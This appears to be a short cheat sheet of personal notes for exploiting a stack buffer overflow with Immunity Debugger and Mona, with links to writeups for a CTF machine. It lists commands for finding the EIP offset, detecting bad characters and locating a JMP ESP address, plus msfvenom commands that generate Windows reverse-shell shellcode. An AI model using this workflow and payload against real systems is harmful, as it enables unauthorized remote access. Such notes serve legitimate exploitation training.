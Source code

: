# Immunity Debugger + Mona
- Set Mona Working Folder
```
!mona config -set workingfolder c:\mona\%p
```
- Generate pattern
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```
- After crash, note EIP value then identity the offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012
```
- Compare memory with bytearray to find bad chars
```
!mona bytearray
!mona compare -a esp -f c:\path\to\bytearray.bin
```
- Find JMP ESP Address
```
!mona jmp -r esp
```
- Generate shellcode
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\x00" -f python EXITFUNC=thread
```
- Generate byte string
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

## Links
___
### Guides

### Writeups
- https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w
- https://noxious.tech/posts/Brainstorm/